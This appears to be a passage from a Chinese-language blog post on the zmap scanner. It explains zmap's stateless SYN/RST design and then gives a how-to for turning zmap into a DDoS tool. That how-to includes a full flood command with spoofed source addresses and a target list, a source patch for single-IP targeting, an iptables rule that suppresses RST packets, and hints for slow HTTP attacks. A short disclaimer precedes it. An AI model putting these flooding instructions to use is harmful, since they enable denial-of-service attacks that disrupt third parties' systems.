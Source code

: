可见三次握手存在于发送-应答-发送机制，等待监听的时间势必导致发包速度很慢。

这里zmap是发送SYN，随后发送RST（重置连接），不存在监听同步操作，清空连接，再继续发下一个数据包。 而对于识别 zmap把 Ip地址和端口做了类似hash表一样的映射，当数据包返回时（可能是Syn+Ack，也可能RST），取出返回数据包里Ip和端口地址进行储存的hash表里查询，并对应处理记录。 同步变异步高效的基本原因。

## 0x04 发散扩展

DDoS的可行性：

作者旨在关注全网的扫描，并未提及相关DDoS 的信息。

也并未特别提供指向型发包的指令。

下面讨论可能与作者想法相违，希望各位重在技术钻研，而非一些恶意破坏。

指定ip段 和ip地址
-w, --whitelist-file=path

限制只扫描文件中的下列地址或者地址段，例如：

222.222.221.82/24   （192.168.1.0-255 ）（可利用种子 –seed 调整从那个IP开始）

单个Ip地址

222.222.221.82/32  （随机找了一个，这里1.02版本测试不能直接，需要改 blacklist.c和constraint.c 中生成IP地址的二叉树的root节点一小部分代码）

然后利用

-P  10000000 （重复多次发包） -s  2000-60000 (设置一个大的端口段) -S  20.20.20.0-200.200.200.200（随机大量Ip地址，模拟分布式的D） -G  这个伪造mac （但是收不到数据包） Zmap –p 80 -P 10000000 -s 2000-60000 -S 20.20.20.0-200.200.200.200 -w attack_url.txt

见下列发送的数据效果，达到预期

![enter image description here]()

可能造成什么样的危害?

可以配置IP Spoofing，syn flood,land attack, ICMP floods, Application floods 和其他UDP 全零等多种攻击。

Zmap 的发包速度甚至可以忽略一下 随后发的这个rst 包。

也可以做得完美一点就是利用iptables
iptables -A OUTPUT -p tcp -m tcp --tcp-flags RST,RST RST,RST -j DROP

把发出去的RST包给drop掉。

### 可以再升一下？

毕竟有部分扩展能控制到应用层也是可以进行慢攻击。

Get 类型
echo -e -n "GET / HTTP/1.1 Host: %s " > http-req  替换成 echo -e -n "GET / HTTP/1.1 Host: %s " > http-req

Post 类型

可以把源码sizeof(value) 的值设置一个大的动态数值。 Post数据设置很小。

### DDoS 流量 +连接数 +畸形包
